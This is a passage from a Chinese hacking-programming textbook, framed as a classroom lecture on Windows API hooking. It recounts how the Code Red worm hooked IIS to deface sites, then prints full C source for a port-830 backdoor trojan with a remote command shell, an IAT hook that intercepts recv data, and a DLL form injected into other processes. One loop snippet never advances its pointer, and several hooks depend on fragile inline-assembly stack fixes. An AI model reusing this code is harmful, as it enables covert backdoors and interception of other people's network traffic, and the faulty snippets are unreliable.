“所以，就给了我们一个 HOOK API 的机会！我们改写 IAT 表中 0x00401234 的内容为我们函数的地址。那么所有关于这个 API 的调用将神不知、鬼不觉地转到我们自己的函数中去，拦截工作也就宣告顺利成功了。”

“因此要拦截 API 的调用，首先就要得到相应的 IAT 的地址。我们可以根据进程的模块句柄，经过一系列的地址偏移而得到 IAT 的地址。不过 ImageDirectoryEntryToData 函数可以帮我们得到 IAT 的地址。该函数如下。”

原型：

```c
PVOID ImageDirectoryEntryToData(
    PVOID Base,
    BOOLEAN MappedAsImage,
    USHORT DirectoryEntry,
    PULONG Size
);
```

参数：

- 第一个参数 Base 表示映像的基地址。
- 第二个参数 MappedAsImage，如果为 TRUE，表示作为映像映射；如果为 FALSE，表示作为数据文件映射。
- 第三个参数 DirectoryEntry 为想读的段名称，对应的值可以为：

| Value | Meaning |
|---|---|
| IMAGE_DIRECTORY_ENTRY_EXPORT | Export directory |
| IMAGE_DIRECTORY_ENTRY_IMPORT | Import directory |
| IMAGE_DIRECTORY_ENTRY_RESOURCE | Resource directory |
| IMAGE_DIRECTORY_ENTRY_EXCEPTION | Exception directory |
| IMAGE_DIRECTORY_ENTRY_SECURITY | Security directory |
| IMAGE_DIRECTORY_ENTRY_BASERELOC | Base relocation table |
| IMAGE_DIRECTORY_ENTRY_DEBUG | Debug directory |
| IMAGE_DIRECTORY_ENTRY_ARCHITECTURE | Architecture-specific data |
| IMAGE_DIRECTORY_ENTRY_GLOBALPTR | Relative virtual address of global pointer |
| IMAGE_DIRECTORY_ENTRY_TLS | Thread local storage directory |
| IMAGE_DIRECTORY_ENTRY_LOAD_CONFIG | Load configuration directory |
| IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT | Bound import directory |
| IMAGE_DIRECTORY_ENTRY_IAT | Import address table |
| IMAGE_DIRECTORY_ENTRY_DELAY_IMPORT | Delay import table |
| IMAGE_DIRECTORY_ENTRY_COM_DESCRIPTOR | COM descriptor table |

- 第四个参数 Size 为返回内读取的字节数。

说明：

ImageDirectoryEntryToData 函数在 Dbghelp.h 中定义，在 DbgHelp.dll 中导出。如果执行成功，则返回指向指定的 IAT 的指针；如果失败，返回 NULL。

“有了思路和方法，就可以通过修改 IAT 实现 HOOK 了。其实早在 2001 年的 RedCode（红色代码）蠕虫中，就使用了修改 IAT 的方法。”

### 7.4.2 “Hacked by Chinese！”——修改 IAT 在 RedCode 蠕虫中的利用

“2001 年的红色代码‘RedCode’蠕虫带来了巨大的破坏，在最初不过 9 个小时内就感染了 25 万台电脑。美国、日本、瑞士、韩国等地先后遭到红色代码病毒的重击，造成总共至少 26 亿美元的损失。我国也遭受了红色代码第二代病毒的大面积肆虐，大量网络因服务器遭受攻击而瘫痪。”

“RedCode 是利用微软 IIS 安全漏洞，通过因特网传播的蠕虫，它传播时不通过文件这一常规载体，而是直接从一台电脑内存传送到另一台电脑内存。”

- 1. 在被感染的系统上设置蠕虫发作的初始环境。
- 2. 蠕虫运行，产生 100 个线程。
- 3. 首先用 99 个线程扩散蠕虫感染其他的 Web 服务器。蠕虫通过创建随机的 IP 地址把自己扩散出去。
- 4. 第 100 个线程则检查蠕虫是否在设置默认语言为美国英语的 Windows NT/2000 系统上运行。如果是，那么这种蠕虫就会篡改被感染的系统站点。任何人访问该站点，会看到网页被篡改成这样一条消息：‘Welcome to http://www.worm.com!，Hacked By Chinese!’这个网页消息将在 Web 服务器上显示 10 个小时后消失。如果系统语言不是美国英语 Windows NT/2000 系统，那么第 100 个蠕虫线程将去感染其他系统。
- 5. 每个蠕虫线程都将检查被感染计算机的当前时间。如果时间在 20:00 UTC 和 23:59 UTC 之间，那么蠕虫将继续使用这个线程攻击 www.whitehouse.gov（美国白宫网站）。在攻击中，被感染的系统将向 www.whitehouse.gov 的端口 80 发送 100k 字节的数据，结果就可能会产生对 www.whitehouse.gov 的拒绝服务攻击。如果时间在 20:00 UTC 以下，这个蠕虫线程就会试着发现并且感染新的 Web 服务器。

老师说道：“该蠕虫的最终目的只是对 www.whitehouse.gov 发起拒绝服务攻击，并将默认语言配置为美国英语的 Windows NT/2000 系统篡改网页显示为‘Hacked by Chinese!’”

“RedCode 传播利用的是缓冲区溢出漏洞，不过今天我们感兴趣的是修改主页的那段，因为蠕虫并没有改写在硬盘上的网页，而是通过 HOOK API 实现的。”

“RedCode HOOK 的是 w3svc.dll 里的 TcpSockSend 函数。TcpSockSend 是 w3svc.dll（IIS 核心引擎）用来把信息发回给用户的函数。”

“蠕虫执行挂钩操作时，先使用 VirtualProtect 函数修改 w3svc.dll 的前 0x4000 个字节为可写属性，并把旧属性状态保存在一个变量中；然后查找 IAT 中的 TcpSockSend 地址，找到后，修改其地址为蠕虫体内自己的一个函数地址 FAKE_TCPSOCKSEND。”

“FAKE_TCPSOCKSEND 函数内完成的功能，就是返回给客户‘Hacked by Chinese!’10 个小时。于是这 10 个小时内，看到的感染主机主页都是‘Hacked by Chinese!’的字样。”

“10 个小时后，蠕虫重新恢复 IAT 的地址为原真实的函数地址，并恢复 w3svc.dll 的只读属性。客户访问网页时，又显示正常了。”

### 7.4.3 IAT HOOK 的实现

“大家想想，在这么早的蠕虫中都实现了这个东西，我们还能落下吗？”

“当然不能啦！”小菜们异口同声地说道。

“答得好！那我们来实现对 recv 函数的 IAT HOOK 吧。”

“首先用 GetProcAddress 函数保存 recv 在 ws2_32.dll 中的真实地址，供我们后面调用原函数时使用。”

```c
// 保存到 recv 函数在 ws2_32.dll 的真正地址
PCSTR pszHookModName = "ws2_32.dll";
PCSTR pszRecvName = "recv";
HMODULE hLib;
hLib = LoadLibrary(pszHookModName);
pRecv = (PRECV)GetProcAddress(hLib, pszRecvName); // recv 地址，保存在 pRecv 中
```

“然后通过 ImageDirectoryEntryToData 函数找到 IAT。这里第一个参数 base 为本进程基址，可以通过 GetModuleHandle(NULL) 获得；第二个参数设为 TRUE，第三个参数 DirectoryEntry 使用 IMAGE_DIRECTORY_ENTRY_IMPORT，表示获得引入表的位置。程序如下。”

```c
HINSTANCE hInstance = GetModuleHandle(NULL); // 本进程 INSTANCE
ULONG ulSize;
PIMAGE_IMPORT_DESCRIPTOR pImportDesc =
    (PIMAGE_IMPORT_DESCRIPTOR)ImageDirectoryEntryToData(
        hInstance,                     // 将本进程基址作为 base 参数
        TRUE,                          // 作为映像映射
        IMAGE_DIRECTORY_ENTRY_IMPORT,  // 获得引入表
        &ulSize                        // 返回读取的字节
    );
```

“得到的返回指针指向 IMAGE_IMPORT_DESCRIPTOR 结构。该结构如下。”

```c
typedef struct _IMAGE_IMPORT_DESCRIPTOR {
    union {
        DWORD Characteristics;
        PIMAGE_THUNK_DATA OriginalFirstThunk;
    };
    DWORD TimeDateStamp;
    DWORD ForwarderChain;
    DWORD Name;
    PIMAGE_THUNK_DATA FirstThunk;
} IMAGE_IMPORT_DESCRIPTOR, *PIMAGE_IMPORT_DESCRIPTOR;
```

“我们使用 IMAGE_IMPORT_DESCRIPTOR 结构里面的 Name，遍历引入表中的 DLL 名称，当和 WS2_32.dll 名称相同时，就找到 WS2_32.dll 在引入表中的起始位置。”

```c
// 遍历引入表中的 DLL 名称
while (pImportDesc->Name)
{
    PSTR pszModName = (PSTR)((PBYTE)hInstance + pImportDesc->Name);
    if (stricmp(pszModName, pszHookModName) == 0) // 找到 ws2_32.dll 在引入表中位置
    {
        break;    // 找到，跳出寻找
    }
    pImportDesc++; // 不是 ws2_32.dll，继续寻找下一个
}
```

“有了 Ws2_32.dll 在引入表中的起始位置后，我们遍历该 Thunk 中填充的导入函数的地址，当与我们前面使用 GetProcAddress 得到的 recv 地址值相同时，就表示找到了在 IAT 中填充的 recv 的真实地址，就可以将其改变。”

```c
PIMAGE_THUNK_DATA 的结构如下：
typedef struct _IMAGE_THUNK_DATA {
    union {
        PBYTE ForwarderString;
        PDWORD Function;
        DWORD Ordinal;
        PIMAGE_IMPORT_BY_NAME AddressOfData;
    };
} IMAGE_THUNK_DATA, *PIMAGE_THUNK_DATA;
```

“于是寻找函数在 IAT 中的填充位置的实现为：”

```c
PIMAGE_THUNK_DATA pThunk =
    (PIMAGE_THUNK_DATA)((PBYTE)hInstance + pImportDesc->FirstThunk);
// 对每一个函数在 IAT 中的地址
while (pThunk->u1.Function)
{
    // 函数在 IAT 中填充的地址
    PROC *ppfn = (PROC *)&pThunk->u1.Function;
    // 如果与前面我们保存的 recv 函数地址相等
    BOOL bFound = (*ppfn == (PROC)pRecv);
    if (bFound)
    {
        // 则作修改 IAT 的工作
        break;
    }
}
```

“接下来作修改 IAT 的工作，可以模仿 RedCode 蠕虫的实现，先修改段的属性为可写，然后改写 IAT 内的地址为我们的 new_recv 函数，最后恢复段的属性。”

```c
if (bFound)
{
    MEMORY_BASIC_INFORMATION mbi;
    // 得到内存位置
    VirtualQuery(
        ppfn,
        &mbi,
        sizeof(MEMORY_BASIC_INFORMATION)
    );
    // 修改属性为可写
    VirtualProtect(
        mbi.BaseAddress,
        mbi.RegionSize,
        PAGE_READWRITE,
        &mbi.Protect
    );
    // 修改 IAT，指向我们自己的 new_recv 函数
    *ppfn = (PROC)new_recv;
    // 恢复原属性
    DWORD dwOldProtect;
    VirtualProtect(
        mbi.BaseAddress,
        mbi.RegionSize,
        mbi.Protect,
        &dwOldProtect
    );
    break;
}
```

“这样，调用 recv 函数时，就可以进入我们的 new_recv 函数了。在 new_recv 的函数中，先调用真正的 recv，然后将截获的数据用对话框打印出来。”

```c
void __cdecl new_recv(SOCKET s, char* buf, int len, int flags)
{
    int iRet = 0;
    // 调用真正的函数
    iRet = pRecv(s, buf, len, flags);
    buf[iRet] = 0;
    // 把 HOOK recv 接收到的数据打印出来
    MessageBox(NULL, buf, "", MB_OK);
}
```

# 黑客编程入门

```c
// 恢复寄存器
__asm
{
    pop edi
    pop esi
    pop ebx
    add esp, 44h
    pop ebp
    ret 0x10;
}
```

“作为测试，我们在本进程中加入木马代码。HOOK recv 的代码合起来如下。”

```c
void __cdecl new_recv(SOCKET s, char* buf, int len, int flags)
{
    int iRet = 0;
    // 调用真正的函数
    iRet = pRecv(s, buf, len, flags);
    buf[iRet] = 0;
    // 把HOOK recv 接收到的数据打印出来
    MessageBox(NULL, buf, "", MB_OK);
    __asm
    {
        pop edi
        pop esi
        pop ebx
        add esp, 44h
        pop ebp
        ret 0x10;
    }
}

int main()
{
    WSADATA ws;
    SOCKET listenFD;
    char Buff[1024], cmd[1024];
    int ret;
    unsigned long BytesRead;
    // 得到recv函数在ws2_32.dll的原来真正地址
    PCSTR pszHookModName = "ws2_32.dll";
    PCSTR pszRecvName = "recv";
    HMODULE hLib;
    // hLib = GetModuleHandle(pszHookModName);
    hLib = LoadLibrary(pszHookModName);
    pRecv = (PRECV)GetProcAddress(hLib, pszRecvName);
    HINSTANCE hInstance = GetModuleHandle(NULL);
    ULONG ulSize;
    PIMAGE_IMPORT_DESCRIPTOR pImportDesc =
        (PIMAGE_IMPORT_DESCRIPTOR)ImageDirectoryEntryToData(
            hInstance,
            TRUE,
            IMAGE_DIRECTORY_ENTRY_IMPORT,
            &ulSize
        );
    while (pImportDesc->Name)
    {
        PSTR pszModName = (PSTR)((PBYTE)hInstance + pImportDesc->Name);
        if (stricmp(pszModName, pszHookModName) == 0)
        {
            break;
        }
        pImportDesc++;
    }
    if (!pImportDesc->Name)
    {
        return -1;
    }
    PIMAGE_THUNK_DATA pThunk =
        (PIMAGE_THUNK_DATA)((PBYTE)hInstance + pImportDesc->FirstThunk);
    while (pThunk->u1.Function)
    {
        PROC* ppfn = (PROC*)&pThunk->u1.Function;
        BOOL bFound = (*ppfn == (PROC)pRecv);
        if (bFound)
        {
            printf("find %s function\n", pszRecvName);
            MEMORY_BASIC_INFORMATION mbi;
            // 得到内存位置
            VirtualQuery(
                ppfn,
                &mbi,
                sizeof(MEMORY_BASIC_INFORMATION)
            );
            // 修改属性为可写
            VirtualProtect(
                mbi.BaseAddress,
                mbi.RegionSize,
                PAGE_READWRITE,
                &mbi.Protect
            );
            // 修改IAT，指向我们自己的new_recv函数
            *ppfn = (PROC)new_recv;
            // 恢复原属性
            DWORD dwOldProtect;
            VirtualProtect(
                mbi.BaseAddress,
                mbi.RegionSize,
                mbi.Protect,
                &dwOldProtect
            );
            break;
        }
        pThunk++;
    }

    // 初始化 wsa
    WSAStartup(MAKEWORD(2, 2), &ws);
    // 建立 socket
    listenFD = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    // 监听本机 830 端口
    struct sockaddr_in server;
    server.sin_family = AF_INET;
    server.sin_port = htons(830);
    server.sin_addr.s_addr = ADDR_ANY;
    ret = bind(listenFD, (sockaddr *)&server, sizeof(server));
    ret = listen(listenFD, 2);
    // 如果客户请求 830 端口，接受连接
    int iAddrSize = sizeof(server);
ag:
    SOCKET clientFD = accept(listenFD, (sockaddr *)&server, &iAddrSize);
    send(clientFD, "Welcome to door by ourselves!\n\r", sizeof("Welcome to door by ourselves!\n\r"), 0);
    send(clientFD, "door>", sizeof("door>"), 0);
    while (1)
    {
        ZeroMemory(cmd, 1024);
        BytesRead = 0;
        // Input cmd
        while (BytesRead < 256)
        {
            if (recv(clientFD, Buff, 1, 0) == SOCKET_ERROR)
            {
                closesocket(clientFD);
                goto ag;
            }
            cmd[BytesRead] = Buff[0];
            if (Buff[0] == 0xa || Buff[0] == 0xd)
            {
                cmd[BytesRead] = 0;
                break;
            }
            BytesRead++;
        }

        // 帮助信息
        if (strcmp(cmd, "h") == 0)
        {
            send(clientFD, g_helpmess, sizeof(g_helpmess), 0);
        }

        // 打开光驱
        if (strcmp(cmd, "open") == 0)
        {
            mciSendString("set cdaudio door open", NULL, 0, NULL);
        }

        // 关闭光驱
        if (strcmp(cmd, "close") == 0)
        {
            mciSendString("Set cdaudio door closed wait", NULL, 0, NULL);
        }

        // 交换鼠标左右键
        if (strcmp(cmd, "x") == 0)
        {
            SwapMouseButton(1);
        }

        // 恢复鼠标左右键
        if (strcmp(cmd, "r") == 0)
        {
            SwapMouseButton(0);
        }

        // 得到 cmd shell
        if (strcmp(cmd, "shell") == 0)
        {
            cmdshell(clientFD);
            send(clientFD, "Shell OK\n\r", sizeof("Shell OK\n\r"), 0);
        }

        // 退出木马，还可再连接
        if (strcmp(cmd, "quit") == 0)
        {
            closesocket(clientFD);
            goto ag;
        }

        // 木马退出程序
        if (strcmp(cmd, "exit") == 0)
        {
            closesocket(clientFD);
            closesocket(listenFD);
            goto end;
        }

        if (strlen(cmd))
            send(clientFD, "door> ", sizeof("door> "), 0);
        Sleep(10);
    }

end:

    return 0;
}
```

“一切OK，我们运行该测试程序，然后 telnet 127.0.0.1 830 端口，输入我们的木马命令。好，成功弹出 new_recv 函数中截获的数据。通过修改 IAT 实现 HOOK API 成功！如图 7.18。”


图7.18

“截获本进程的 recv 函数成功后，同样地我们试试截获其他进程的效果。”

“首先将 IAT HOOK 的代码改写成 DLL 文件。改写方法和跳转法一样，DLLMain 中开启 hook 线程，线程中完成修改 IAT 的工作。DLL 代码如下：”

```c
BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        {
            CreateThread(NULL, NULL, hook, NULL, NULL, NULL);
        }
        default:
            return TRUE;
    }
    return TRUE;
}

void __cdecl new_recv(SOCKET s, char* buf, int len, int flags)
{
    int iRet = 0;
    // 调用真正的函数
    iRet = pRecv(s, buf, len, flags);
    buf[iRet] = 0;
    // 把HOOK recv 接收到的数据打印出来
    MessageBox(NULL, buf, "", MB_OK);
    __asm
    {
        pop edi
        pop esi
        pop ebx
        add esp, 44h
        pop ebp
        ret 0x10;
    }
}
```

```c
DWORD WINAPI hook(LPVOID lpParam)
{
    // 得到 recv 函数在 ws2_32.dll 的原来真正地址
    PCSTR pszHookModName = "ws2_32.dll";
    PCSTR pszRecvName = "recv";
    HMODULE hLib;
    hLib = LoadLibrary(pszHookModName);
    pRecv = (PRECV)GetProcAddress(hLib, pszRecvName);
    // GetModuleHandle
    HINSTANCE hInstance = GetModuleHandle(NULL);
    ULONG ulSize;
    PIMAGE_IMPORT_DESCRIPTOR pImportDesc =
        (PIMAGE_IMPORT_DESCRIPTOR)ImageDirectoryEntryToData(
            hInstance,
            TRUE,
            IMAGE_DIRECTORY_ENTRY_IMPORT,
            &ulSize
        );
    while (pImportDesc->Name)
    {
        PSTR pszModName = (PSTR)((PBYTE)hInstance + pImportDesc->Name);
        if (strcmp(pszModName, pszHookModName) == 0)
        {
            break;
        }
        pImportDesc++;
    }
    if (!pImportDesc->Name)
    {
        return -1;
    }
    PIMAGE_THUNK_DATA pThunk =
        (PIMAGE_THUNK_DATA)((PBYTE)hInstance + pImportDesc->FirstThunk);
    while (pThunk->u1.Function)
    {
        PROC* ppfn = (PROC*)&pThunk->u1.Function;
        BOOL bFound = (*ppfn == (PROC)pRecv);
        if (bFound)
        {
            printf("find %s function!\n", pszRecvName);
            MEMORY_BASIC_INFORMATION mbi;
            // 得到内存位置
            VirtualQuery(
                ppfn,
                &mbi,
                sizeof(MEMORY_BASIC_INFORMATION)
            );

            // 修改属性为可写
            VirtualProtect(
                mbi.BaseAddress,
                mbi.RegionSize,
                PAGE_READWRITE,
                &mbi.Protect
            );

            // 修改IAT，指向我们自己的new_recv函数
            *ppfn = (PROC)new_recv;
            // 恢复原属性
            DWORD dwOldProtect;
            VirtualProtect(
                mbi.BaseAddress,
                mbi.RegionSize,
                mbi.Protect,
                &dwOldProtect
            );
            break;
        }
        pThunk++;
    }
    return 0;
}
```

“编译，链接生成 DLL，使用相同的远程注入程序，测试 HOOK 我们的 door31.exe 的 recv 函数，还是成功！如图 7.19。”


图7.19

实现成功后，老师说道：“大家要注意，如果 API 函数在系统中有 ANSI 和 WIDE 两个版本，那么我们需要将两个都 HOOK 了，才能保证成功。”

## 7.5 内存中备份整个DLL

“前面两种方法或多或少地有些不足。跳转法需要反复地滚来滚去，滚来滚去，在多线程环境下并不健壮；而修改 IAT 的方法，如果对方直接调用 DLL 里的地址，比如 ShellCode，IAT 就无法 HOOK 到目标函数了。”

## 高手的HOOK编程。

“为此，我们来个厉害点的，不把 API 函数的入口处改来改去，而是直接备份整个 DLL，当跳到我们的函数后，调用备份 DLL 里的原函数，这样就只用修改入口处一次了。”

“我们保存 DLL 的新地址在 DLLINFO 结构中。”

```c
typedef struct
{
    HMODULE    hModule;        // 模块句柄
    LPVOID     lpNewBaseOfDll; // 模块备份的新地址
    MODULEINFO modinfo;        // 模块信息
} DLLINFO, *PDLLINFO;
```

“备份操作用 InitDll(char *pszDll, PDLLINFO pDllInfo) 函数完成。第一个参数 pszDll 为要备份的 DLL 名，第二个参数 pDllInfo 指向 DLLINFO 结构，保存 DLL 的信息。”

```c
BOOL InitDll(char *pszDll, PDLLINFO pDllInfo)
{
    // 保存模块名在DLLINFO结构的hModule中
    pDllInfo->hModule = GetModuleHandle(pszDll);
    if (!pDllInfo->hModule)
    {
        LogError("GetModuleHandle()", GetLastError());
        return 0;
    }

    // 获得模块信息，保存在DLLINFO结构的modinfo中
    if (!GetModuleInformation(GetCurrentProcess(),   // 现在的Process
        pDllInfo->hModule,                           // 模块句柄
        &pDllInfo->modinfo,                          // 存在DLLINFO结构的modinfo中
        sizeof(MODULEINFO)))                         // 保存的大小
    {
        LogError("GetModuleInformation()", GetLastError());
        return 0;
    }

    // 给DLLINFO结构的lpNewBaseOfDll分配内存，用来备份DLL
    pDllInfo->lpNewBaseOfDll = malloc(pDllInfo->modinfo.SizeOfImage);
    if (!pDllInfo->lpNewBaseOfDll)
    {
        LogError("malloc()", GetLastError());
        return 0;
    }

    // 将DLL拷贝备份到分配的内存中
    memcpy(pDllInfo->lpNewBaseOfDll,    // 目的地址为DLLINFO结构的lpNewBaseOfDll
        pDllInfo->modinfo.lpBaseOfDll,  // 源为DLL本身
        pDllInfo->modinfo.SizeOfImage); // 拷贝的大小为DLL的大小
    return 1;
}
```

“和前面一样地改写函数的入口处，会跳到我们自己编写的 new_api 函数中。以 recv 函数为例，我们先调用备份 DLL 里的原函数，再做自己的事情。new_recv 的函数如下。”

# 黑客编程入门

```c
int __stdcall new_recv(
    SOCKET s,
    char FAR *buf,
    int len,
    int flags
)
{
    int retvalue;
    // 调用原函数
    __asm
    {
        push flags             // 参数flags入栈
        push len               // 参数len入栈
        push buf               // 参数buf入栈
        push s                 // 参数s入栈
        mov  eax, backup_recv  // 备份DLL中的recv地址
        call eax               // 调用备份DLL中的recv
        mov  retvalue, eax
    }

    // 我们HOOK做的事情，打印信息
    buf[len] = '\0';
    printf("%s\n", buf);
    return retvalue;
}
```

“这里的backup_recv是备份DLL中的recv函数地址。通过DLL原地址和备份DLL的地址，我们可以计算出recv函数在备份DLL上的新地址。”

“公式很简单，为：recv函数在DLL中的偏移值 + 备份DLL的起始地址 = （recv原地址－原DLL起始地址） + 备份DLL的起始地址。”

```c
// 计算原函数COPY的位置
*pNewFunc = dwOridFunc - (DWORD)pDllInfo->modinfo.lpBaseOfDll + (DWORD)pDllInfo->lpNewBaseOfDll;
```

## 小结

“备份法就这样完成了，从此我们就不用再滚来滚去、滚来滚去地反复修改入口点了。另外，我们还可以只备份感兴趣的目标函数，关键就是要获得任意长度的指令了。但我们的课接近尾声了，而且如果人物形象太完美了，就不真实感人了，所以这点就留给大家自己研究了。”

“结束前，我们还是总结一下。这门课从基础出发，讲解了编程基础、网络基本编程、socket高级编程，接着更深入地讲解了更深层次的隐藏进程编程、隐藏端口编程，直到今天最后的HOOK法。”

“这就结束了啊？”小菜们意犹未尽。

“通过这门课，希望大家不仅仅能解决一些问题，更重要的是学会解决问题的能力。”

“更多的是要具体问题、具体分析，才能真正地解决面临的问题。无名一身武艺，技惊天下，十步一杀不在话下。大家有了这些基础后，在面对问题时，只要精心分析，不落俗套，勤加练习，也一定能像无名一样，纵横天下。”

小菜们走出门去，看见外面一片碧蓝的天空……